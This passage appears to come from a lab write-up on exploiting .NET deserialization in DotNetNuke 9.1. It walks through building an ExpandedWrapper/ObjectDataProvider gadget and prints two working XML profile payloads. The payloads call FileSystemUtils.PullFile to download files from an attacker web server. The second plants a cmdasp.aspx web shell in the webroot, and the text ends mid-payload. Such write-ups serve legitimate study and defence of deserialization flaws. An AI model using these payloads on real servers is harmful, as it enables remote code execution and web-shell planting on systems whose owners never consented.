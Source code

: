 Here, for the serialization function: 
Instead of using the _ObjectDataProvider_ directly, we are now instantiating an object of type ExpandedWrapper<FileSystemUtils, ObjectDataProvider>.
Furthermore, we use the generic ProjectedProperty0 property to create an ObjectDataProvider instance.

The deserialization function also needs to be created just to be certain that no errors occur during deserialization.
For the deserialization function:
This function reads the serialized _ExpandedWrapper_ object we have previously created from a file and uses the native DNN function to start the deserialization process.
The same function is called in _LoadProfile_ function.

(NOTE: we can comment out the function that we don't want to use)

Compiling and running the serializer, we get a download from our attacker web server, and the serializer file looks as follows:

```xml
<profile>
<item key="myTableEntry" type="System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils, DotNetNuke, Version=9.1.0.367, Culture=neutral, PublicKeyToken=null],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
<ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
<ProjectedProperty0>
<ObjectInstance xsi:type="FileSystemUtils" />
<MethodName>
PullFile
</MethodName>
<MethodParameters>
<anyType xsi:type="xsd:string">http://192.168.119.184/myODPTest.txt
</anyType>
<anyType xsi:type="xsd:string">
C:/inetpub/wwwroot/dotnetnuke/PullFileTest.txt
</anyType>
</MethodParameters>
</ProjectedProperty0>
</ExpandedWrapperOfFileSystemUtilsObjectDataProvider>
</item>
</profile>
```

## The Shell
After using the serializer to create a payload, we get the following xml code:

```xml
<profile>
<item key="myTableEntry" type="System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils, DotNetNuke, Version=9.1.0.367, Culture=neutral, PublicKeyToken=null],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"><ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
<ProjectedProperty0>
<ObjectInstance xsi:type="FileSystemUtils" />
<MethodName>
PullFile
</MethodName>
<MethodParameters>
<anyType xsi:type="xsd:string">http://192.168.119.184/cmdasp.aspx</anyType><anyType xsi:type="xsd:string">
C:/inetpub/wwwroot/dotnetnuke/cmdasp.aspx
</anyType>
```